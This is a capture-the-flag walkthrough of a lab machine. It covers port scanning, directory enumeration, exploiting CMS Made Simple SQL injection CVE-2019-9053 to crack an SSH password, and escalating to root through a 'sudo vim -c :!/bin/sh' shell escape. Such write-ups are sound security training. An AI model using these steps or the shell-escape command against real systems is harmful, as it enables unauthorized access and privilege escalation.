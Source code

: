 # Simple CTF

+ **LHow many services are running under port 1000?**
  	```
  	wuvel@wuvel:~$ nmap -A -T5 -oN nmap/initial 10.10.33.186

  	Nmap scan report for 10.10.33.186
	Host is up (0.23s latency).
	Not shown: 997 filtered ports
	PORT     STATE SERVICE VERSION
	21/tcp   open  ftp     vsftpd 3.0.3
	80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	|_http-title: Apache2 Ubuntu Default Page: It works
	2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
	|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
	|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
	Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
  	```

  	There is **2** services.

+ **What is running on the higher port?**
	```
  	wuvel@wuvel:~$ nmap -A -T5 -oN nmap/initial 10.10.33.186

  	Nmap scan report for 10.10.33.186
	Host is up (0.23s latency).
	Not shown: 997 filtered ports
	PORT     STATE SERVICE VERSION
	21/tcp   open  ftp     vsftpd 3.0.3
	80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	|_http-title: Apache2 Ubuntu Default Page: It works
	2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
	|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
	|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
	Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
  	```

  	It is **ssh** services.

+ **What's the CVE you're using against the application?**
	```
	wuvel@wuvel:~$ gobuster dir -u 10.10.33.186 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50

	===============================================================
	Gobuster v3.0.1
	by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
	===============================================================
	[+] Url:            http://10.10.33.186
	[+] Threads:        50
	[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
	[+] Status codes:   200,204,301,302,307,401,403
	[+] User Agent:     gobuster/3.0.1
	[+] Timeout:        10s
	===============================================================
	2020/05/24 21:17:42 Starting gobuster
	===============================================================
	/simple (Status: 301) 

	#It's a CMS Made Simpe.
	```

	After we look up for CMS Made Simple Vuln, i found the CVE was **CVE-2019-9053**.

+ **To what kind of vulnerability is the application vulnerable?**
	```
	CMS Made Simple versions prior to 2.2.10 suffer from a remote SQL injection vulnerability.

	#from https://packetstormsecurity.com/files/152356/CMS-Made-Simple-SQL-Injection.html
	```

	It's a **SQLi** Vuln.

+ **What's the password?**
	```
	#Download the CVE, Run with python2.

	[+] Salt for password found: 1dac0d92e9fa6bb2
	[+] Username found: mitch
	[+] Email found: admin@admin.com
	[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
	[+] Password cracked: secret
	```

	The password is **secret**.

+ **Where can you login with the details obtained?**
	```
	wuvel@wuvel:~$ ssh mitch@10.10.33.186 -p 2222

	The authenticity of host '[10.10.33.186]:2222 ([10.10.33.186]:2222)' can't be established.
	ECDSA key fingerprint is SHA256:Fce5J4GBLgx1+iaSMBjO+NFKOjZvL5LOVF5/jc0kwt8.
	Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
	Warning: Permanently added '[10.10.33.186]:2222' (ECDSA) to the list of known hosts.
	mitch@10.10.33.186's password: 
	Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

	 * Documentation:  https://help.ubuntu.com
	 * Management:     https://landscape.canonical.com
	 * Support:        https://ubuntu.com/advantage

	0 packages can be updated.
	0 updates are security updates.

	Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
	$
	```

	We can login thru **SSH**.

+ **What's the user flag?**
	```
	$ cat user.txt  

	G00d j0b, keep up!
	```

	It's **G00d j0b, keep up!**.

+ **Is there any other user in the home directory? What's its name?**
	```
	$ cd ..
	$ ls
	mitch  sunbath
	$ 
	```

	The other users was **sunbath**.

+ **What can you leverage to spawn a privileged shell?**
	```
	mitch@Machine:~$ sudo -l

	User mitch may run the following commands on Machine:
	    (root) NOPASSWD: /usr/bin/vim
	```

	We can privesc using **vim**.

+ **What's the root flag?**
	```
	mitch@Machine:~$ sudo vim -c ':!/bin/sh'

	# whoami
	root
	# cd /root
	# ls
	root.txt
	# cat root.txt  
	W3ll d0n3. You made it!
	```

	Root flag is **W3ll d0n3. You made it!**.